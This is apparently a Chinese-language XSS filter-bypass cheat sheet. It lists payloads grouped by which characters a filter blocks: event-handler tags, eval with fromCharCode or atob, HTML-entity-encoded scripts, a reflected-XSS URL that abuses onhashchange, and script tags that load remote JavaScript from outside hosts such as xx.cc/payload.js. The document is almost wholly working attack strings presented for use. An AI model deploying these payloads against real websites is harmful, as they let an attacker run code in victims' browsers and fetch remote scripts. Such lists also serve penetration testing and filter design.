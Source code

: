 - 不使用空格
```
# 用正斜线 / 代替空格
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```

- 不使用正斜线`/`(slash)
```
# svg标签的"事件处理属性"
<svg onload=confirm()>
# img标签的"事件处理属性"
<img src=x onerror=confirm()>
```

- 不使用等号`=`(equal sign)

>[JSFuck](http://www.jsfuck.com/) 优点是只使用6个字符`()[]!+` 即可执行任意JavaScript代码. 缺点是太长了.
```
# 执行JavaScript语句 console.log(666)

# 方法1: eval函数
<script>eval(String.fromCharCode(99,111,110,115,111,108,101,46,108,111,103,40,54,54,54,41))</script>
<script>eval(atob`Y29uc29sZS5sb2coNjY2KQ`)</script>

# 方法2: HTML Entity (Hexadecimal)
# 优点: 不出现许多符号 如 = " ' ( ) ; 等
<svg><script>&#x63&#x6f&#x6e&#x73&#x6f&#x6c&#x65&#x2e&#x6c&#x6f&#x67&#x28&#x36&#x36&#x36&#x29</script><svg>

# 闭合input标签
"><script>document.writeln`<script+src\x3dhttp://xx.cc/payload.js><\x2fscript>`</script>
```

- 不使用括号`(` `)` 仅适用于某些情况下的反射型XSS
```
# 适用条件: "目标站" 存在反射型XSS(会将code参数的值放入JavaScript上下文中),但参数值不能出现 括号()
# 可使用以下payload实现XSS

https://vul.com/vulpage?code=
onhashchange=setTimeout;Object.prototype.toString=RegExp.prototype.toString;Object.prototype.source=location.hash;location.hash=null;#1/-alert(location.href)/
```

- 不使用尖括号`>`(angular bracket)来结束标签
```
# 使用//可以结束svg标签 需//之后有任意标签<x> 则svg标签中的JavaScript就能成功执行
<svg onload=confirm()//
```

- 不出现字符串 `alert` `confirm` `prompt`

```
# 外联js文件
<script src=//14.rs></script>
```
